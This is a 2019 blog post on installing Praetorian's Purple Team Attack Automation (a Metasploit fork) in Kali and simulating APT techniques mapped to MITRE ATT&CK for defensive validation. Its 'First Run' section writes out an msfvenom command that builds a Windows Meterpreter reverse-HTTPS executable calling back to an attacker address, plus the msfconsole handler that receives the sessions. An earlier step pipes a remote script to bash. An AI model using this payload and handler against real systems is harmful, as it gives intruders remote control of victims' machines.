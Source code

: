 +++
banner = "/uploads/2019/04/msfconsole.png"
categories = [ "Linux", "Configuration" ]
date = "2019-04-29T20:30:00+00:00"
excerpt = "How to simulate Advanced Persistent Threats (APT) using Metasploit and MITRE's ATT&CK framework..."
format = "post"
tags = [ "Red Team", "Metasploit", "ATT&CK" ]
title = "Simulating APTs For Fun"

+++

In the post I will explain how one could simulate an Advanced Persistent Threat (APT) using Praetorian's Purple Team Attack Automation and MITRE's ATT&CK framework.

<!--more-->

{{< youtube class="ratio ratio-16x9 mb-3" id="REMVMfoeJWE" >}}

### Introduction

How does one go about validating that what has been setup to protect one's infrastructure is actually useful? Well, one will need to be able to simulate threats. To do that, one needs two things, an environment and tools. In the past few days I have been investigating tools that would allow me to simulate Tactics, Techniques and Procedures (TTPs) of better known APTs to validate some concepts we have been exploring at work.

An obvious choice was MITRE's CALDERA, ended up disappointed with it, but pleasantly surprised by Praetorian's [Purple Team Attack Automation][1] (shoutout to [@Decalage2][5] for pointing me to it). As per Purple Team Attack Automation (PTAA) documentation, one should make use of Docker to install it, something that I'm not very keen on doing.

I decided to manually install it, in a nutshell, PTAA is Metasploit with extra modules added to it so how hard could it be? That's also the reason why I liked PTAA so much: the fact that it leverages existing and well maintained software that I use on my workflow.

{{< alert >}}Note that the installation of PTAA was performed in a fresh and fully updated Kali Linux 2019.1a.{{< /alert >}}

### First Things First

First thing is to install the dependencies needed to build the Ruby gems required by Metasploit.

```shell {linenos=inline}
#!/bin/bash
apt-get install -y libssl-dev libreadline-dev zlib1g-dev libpq-dev libsqlite3-dev libpcap-dev
```

Then, clone the source code of [rbenv][2], [ruby-build][3] and of PTAA itself. We'll make use of rbenv as the Metasploit version from which PTAA is based upon, has different requirements from the Metasploit that comes with Kali (e.g., Ruby version). Creating a separate environment makes things easier to manage and avoids problems with version conflicts and the likes.

```shell {linenos=inline}
#!/bin/bash
git clone https://github.com/praetorian-code/purple-team-attack-automation.git ~/purple-team-attack-automation
# Cloning into '/home/researcher/purple-team-attack-automation'...
# remote: Enumerating objects: 480023, done.
# remote: Counting objects: 100% (480023/480023), done.
# remote: Compressing objects: 100% (115968/115968), done.
# remote: Total 480023 (delta 351889), reused 479916 (delta 351795), pack-reused 0
# Receiving objects: 100% (480023/480023), 385.07 MiB | 6.04 MiB/s, done.
# Resolving deltas: 100% (351889/351889), done.
# Checking out files: 100% (10339/10339), done.

git clone https://github.com/rbenv/rbenv.git ~/.rbenv
# Cloning into '/home/researcher/.rbenv'...
# remote: Enumerating objects: 15, done.
# remote: Counting objects: 100% (15/15), done.
# remote: Compressing objects: 100% (13/13), done.
# remote: Total 2759 (delta 4), reused 6 (delta 2), pack-reused 2744
# Receiving objects: 100% (2759/2759), 528.92 KiB | 1.37 MiB/s, done.
# Resolving deltas: 100% (1724/1724), done.

git clone https://github.com/rbenv/ruby-build.git ~/.rbenv/plugins/ruby-build
# Cloning into '/home/researcher/.rbenv/plugins/ruby-build'...
# remote: Enumerating objects: 30, done.
# remote: Counting objects: 100% (30/30), done.
# remote: Compressing objects: 100% (19/19), done.
# remote: Total 9742 (delta 10), reused 24 (delta 7), pack-reused 9712
# Receiving objects: 100% (9742/9742), 2.08 MiB | 3.27 MiB/s, done.
# Resolving deltas: 100% (6336/6336), done.
```

### Ruby, Ruby Gems and a Database

After the code has been downloaded, we need to create a file that can be used to setup the environment every time we want to make use of PTAA. The rbenv documentation instructs one to use the `.bashrc` file. This works well when you have a dedicated user to run the software you're installing, which is not the case. As such, I prefer to use a specific file that I use only when needed.

{{< alert class="warning" >}}Note that the environment file adds `/usr/lib/postgresql/11/bin` to the `PATH` variable as Metasploit `msfdb` utility makes use of `pg_ctl`.{{< /alert >}}

```shell {linenos=inline}
#!/bin/bash
echo '#!/bin/bash' > ~/purple-team-attack-automation/.envinit
echo 'export PATH="$HOME/.rbenv/bin:$PATH"' >> ~/purple-team-attack-automation/.envinit
echo 'export PATH="$HOME/purple-team-attack-automation/:$PATH"' >> ~/purple-team-attack-automation/.envinit
echo 'export PATH="$PATH:/usr/lib/postgresql/11/bin"' >> ~/purple-team-attack-automation/.envinit
echo 'export PS1="(purple-team-attack-automation) $PS1"' >> ~/purple-team-attack-automation/.envinit
echo 'eval "$(rbenv init -)"' >> ~/purple-team-attack-automation/.envinit
```

Now we have everything ready to install Ruby and the gems needed by Metasploit.

```shell {linenos=inline}
#!/bin/bash
. ~/purple-team-attack-automation/.envinit
cd ~/purple-team-attack-automation

rbenv install
# Downloading ruby-2.6.2.tar.bz2...
# -> https://cache.ruby-lang.org/pub/ruby/2.6/ruby-2.6.2.tar.bz2
# Installing ruby-2.6.2...
# Installed ruby-2.6.2 to /home/researcher/.rbenv/versions/2.6.2
```

Verify that the environment is properly setup and correct any errors reported.

```shell {linenos=inline}
#!/bin/bash
curl -fsSL https://github.com/rbenv/rbenv-installer/raw/master/bin/rbenv-doctor | bash
# Checking for `rbenv' in PATH: /home/researcher/.rbenv/bin/rbenv
# Checking for rbenv shims in PATH: OK
# Checking `rbenv install' support: /home/researcher/.rbenv/plugins/ruby-build/bin/rbenv-install (ruby-build 20190423)
# Counting installed Ruby versions: 1 versions
# Checking RubyGems settings: OK
# Auditing installed plugins: OK
```

Finally install the Ruby gems needed by Metasploit using [bundler][4] and setup the database.

{{< alert class="danger" >}}You'll probably want to skip the database initialization command if you already make use of Metasploit's database since you may end up deleting all the loot you have acquired and stored in the already existing database.{{< /alert >}}

{{< alert >}}Make sure the user you are using to execute the `msfdb` utility is in the `postgres` group, otherwise it will fail.{{< /alert >}}

```shell {linenos=inline}
#!/bin/bash
gem install bundler
# Fetching bundler-2.0.1.gem
# Successfully installed bundler-2.0.1
# Parsing documentation for bundler-2.0.1
# Installing ri documentation for bundler-2.0.1
# Done installing documentation for bundler after 2 seconds
# 1 gem installed

bundler install
# Warning: the running version of Bundler (1.17.2) is older than the version that created the lockfile (1.17.3). We suggest you upgrade to the latest version of Bundler by running `gem install bundler`.
# Fetching gem metadata from https://rubygems.org/..............
# Using rake 12.3.2
# Fetching Ascii85 1.0.3
# Installing Ascii85 1.0.3
# Fetching concurrent-ruby 1.0.5
# Installing concurrent-ruby 1.0.5
# Fetching i18n 0.9.5
# Installing i18n 0.9.5
# Using minitest 5.11.3
# ...

id
# uid=1000(researcher) gid=1000(researcher) groups=1000(researcher),27(sudo),117(postgres)

msfdb init --component database
# Creating database at /home/researcher/.msf4/db
# Starting database at /home/researcher/.msf4/db...success
# Creating database users
# Writing client authentication configuration file /home/researcher/.msf4/db/pg_hba.conf
# Stopping database at /home/researcher/.msf4/db
# Starting database at /home/researcher/.msf4/db...success
# Creating initial database schema
```

### First Run

Now that the environment and PTAA are ready, the next step is to generate the payload that will be used to "infect" a target machine.

{{< alert class="warning" >}}Note that the payload generation options below are just for testing. You won't be fooling anyone ;){{< /alert >}}

```shell {linenos=inline}
#!/bin/bash
msfvenom -p windows/x64/meterpreter_reverse_https -a x64 --platform windows LHOST=<attacker IP address> LPORT=8443 -f exe > meterpreter.exe
# No encoder or badchars specified, outputting raw payload
# Payload size: 207449 bytes
# Final size of exe file: 214016 bytes
```

Then we can run Metasploit and start a handler to receive the connections from our Meterpreter payload.

```shell {linenos=inline}
#!/bin/bash
. ~/purple-team-attack-automation/.activate

msfdb start --component database

msfconsole
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_https
# PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST <attacker IP ahaddress>
# LHOST => <attacker IP address>

msf5 exploit(multi/handler) > set LPORT 8443
# LPORT => 8443

msf5 exploit(multi/handler)> exploit -j -z
# [*] Exploit running as background job 0.
# [*] Exploit completed, but no session was created.
# [*] Started reverse TCP handler on 192.168.23.205:8443
```

### Running the Simulation

Now that we have everything ready, we need to select what PTAA modules we need to run. Since PTAA makes usage of MITRE's ATT&CK framework we can for each of the defined tactics, select the techniques specific to the APT one wants to simulate and that PTAA supports. For example, if we want to simulate APT28 (because, from Mother Russia with love) on the "Execution" tactic we can select technique T1086 - execution with PowerShell.

Hope this is helpful :D

[1]: https://github.com/praetorian-code/purple-team-attack-automation/ "Purple Team Attack Automation Repository"
[2]: https://github.com/rbenv "rbenv Repository"
[3]: https://github.com/rbenv/ruby-build "ruby-build Respository"
[4]: https://bundler.io/ "Ruby Bundler Site"
[5]: https://twitter.com/decalage2 "Decalage Twitter"
